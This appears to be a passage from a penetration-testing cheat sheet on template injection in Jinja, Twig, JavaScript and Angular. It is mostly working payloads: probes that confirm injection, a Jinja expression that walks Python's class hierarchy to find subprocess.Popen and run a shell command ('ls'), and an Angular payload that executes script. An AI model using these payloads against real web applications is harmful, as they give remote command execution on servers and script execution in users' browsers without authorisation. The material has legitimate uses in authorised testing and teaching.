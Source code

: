 ### 18.2.1	ANGULAR

- Observe if input is enclosed in an ng-app directive. Perhaps in `<body>` tag. [27]

## 18.3	CONFIRMING EXPLOITABILITY

### 18.3.1	JINJA

- `{{ 3 * '3' }}` will resolve to 333. Python.

### 18.3.2	TWIG

- `{{ 3 * '3' }}` will resolve to 9. PHP.

### 18.3.3	JAVASCRIPT

- `${ 7 * 7 }` will resolve to 49.

## 18.4	SEARCHING FOR EXPLOITABLE CLASSES

### 18.4.1	JINJA

```
{{ ''.__class__.__mro__[1].__subclasses__()[0:10] }}
```

- Returns first 10 classes. Iterate and identify exploitable classes.

## 18.5	EXPLOITABLE CLASSES

### 18.5.1	-

```
os.system
```

### 18.5.2	- [21]

```
subprocess.Popen
```

```
{{ ''.__class__.__mro__[1].__subclasses__()[<INSERT INDEX HERE>]('ls',shell=True,stdout=-1).communicate() }}
```

## 18.6	EXAMPLE PAYLOAD

### 18.6.1	[27]

```
{{$on.constructor('alert(1)')()}}
```

